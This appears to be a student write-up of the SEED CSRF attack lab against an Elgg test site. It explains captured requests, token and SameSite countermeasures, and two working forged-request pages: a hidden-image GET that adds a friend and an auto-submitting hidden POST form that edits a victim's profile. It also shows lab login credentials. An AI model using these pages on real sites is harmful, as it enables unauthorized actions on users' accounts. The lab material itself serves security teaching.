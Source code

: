 # Cross-Site Request Forgery (CSRF) Attack Lab

## Task 1: Observing HTTP Request

### HTTP GET request

```
http://www.seed-server.com/action/friends/add?friend=57&__elgg_ts=1747871495&__elgg_token=uVQFXJYUeZwwQRJgYx3Vpw&__elgg_ts=1747871495&__elgg_token=uVQFXJYUeZwwQRJgYx3Vpw
...
GET: HTTP/1.1 200 OK
```

Parameters:
+ `friend`: numeric ID of account to add as friend
+ `__elgg_ts` and `__elgg_token`: used for CSRF countermeasure

### HTTP POST request

```
http://www.seed-server.com/action/login
...
__elgg_token=GtDtrMTcyzKUss_fR3vKJg&__elgg_ts=1747870943&username=alice&password=seedalice
POST: HTTP/1.1 200 OK
...
```

Parameters:
+ `__elgg_token` and `__elgg_ts`: used for CSRF countermeasure
+ `username` and `password`: credentials for login

## Task 2: CSRF Attack using GET Request

We already have the structure of the Add-Friend HTTP GET request from Task 1; it remains to find the ID of Samy's account, which is `59`.

Contents of `addfriend.html`:

```html
<html>
<body>
<h1>This page forges an HTTP GET request</h1>
<img src="http://www.seed-server.com/action/friends/add?friend=59" alt="image" width="1" height="1" />
</body>
</html>
```

Visiting this page successfully triggers the Add-Friend HTTP Get request; Alice can see when she reloads Samy's profile page that she is now friends with him.

## Task 3: CSRF Attack using POST Request

We need to change some details on the hidden form:

+ `name`: `Alice`
+ `briefdescription`: `Samy is my Hero` :)
+ `guid`: `56` (Alice's user ID)

We also have to direct the form to send its POST request to `http://www.seed-server.com/action/profile/edit` via its `action` attribute.

One additional measure we can take is to avoid redirection to Alice's profile page upon submission of the form, which would immediately present the changed profile for Alice to see; we instead set the form's `target` attribute to an invisible `<iframe>`, and we can also make the form completely invisible while we're at it (instead of displaying `undefined` to the page), using `style: "display: none;"` for both.

Contents of `editprofile.html`:

```html
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<iframe name="dummyframe" style="display: none;"></iframe>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>";
    fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";         
    fields += "<input type='hidden' name='guid' value='56'>";

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.seed-server.com/action/profile/edit";
    p.innerHTML = fields;
    p.method = "post";
    p.target = "dummyframe";
    p.style = "display: none;";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}

// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
```

Upon visiting this site and then checking Alice's profile page again, we can see that the profile edit is successful.

Samy is able to obtain Alice's user ID for use in this attack without being able to log into her account, by visiting her profile page and hovering over the `Add friend` button; the user ID of the account to add as a friend can then be seen in the tooltip URL, which is of the same GET request we saw in Task 2.

Samy will however not be able to launch this attack against anybody who visits his malicious web page. Even if the visitor has an active session with Elgg at the same time, the details of this session (such as the `Elgg` cookie and user ID) are not visible to Samy, who is just getting the visitor's browser to send a POST request with its own `Elgg` cookie attached; so, Samy is not able to put the correct user ID into the form.

## Task 4: Enabling Elgg's Countermeasure

After enabling the countermeasure, both attacks above are now unsuccessful. We saw in Task 1 the secret tokens in the captured HTTP requests; Samy is not able to find these out, as he is not actually accessing Elgg as Alice to be able to see the tokens in the page, but merely requesting that Alice's browser submit a particular forged GET or POST request.

## Task 5: Experimenting with the SameSite Cookie Method

When sending requests to `www.example32.com` from itself, all of the cookies associated with the site are sent by the browser. However, when sending requests to `www.example32.com` from `www.attacker32.com`, only `cookie-normal` and `cookie-lax` are visible for GET requests, and only `cookie-normal` is visible for POST requests; the SameSite cookies failed to make it through because the requests were cross-site requests.

This could be used by a server to detect whether a request is cross-site or same-site, by checking if a (strict) SameSite cookie which they have set in advance is present or absent from requests. For example, Elgg could make the `Elgg` session cookie a SameSite cookie, and then it would be absent from cross-site requests, which would stop the attacks from previous tasks from working.